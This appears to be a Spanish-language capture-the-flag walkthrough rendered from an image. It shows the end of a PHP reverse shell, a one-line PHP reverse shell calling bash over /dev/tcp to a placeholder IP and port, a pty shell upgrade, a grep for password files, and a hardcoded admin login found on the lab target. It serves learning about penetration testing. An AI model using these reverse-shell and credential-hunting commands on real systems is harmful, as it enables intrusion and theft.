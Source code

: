 ```python

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>

```

# Rshell.php
```python
<?php
    system("bash -c 'bash -i >& /dev/tcp/TUI-P/PUERTO 0>&1'")
?>
```

###### Tenemos que cambiar el la IP y el puerto por donde estaremos escuchando para conseguir la reverseshell.php

comando para generar el pront de la terminal
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

#### Navegando al directorio donde se alija la pagina php podemos encontrar archivos interesantes.
User.
```python
'r***', 'M********'
```

### El comando cat lo podemos convinar con grep para buscar archivos que contengan una palabra en espesifico. 

# code
```python
cat * | grep -i passw*
```
# Info
```python
($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
```
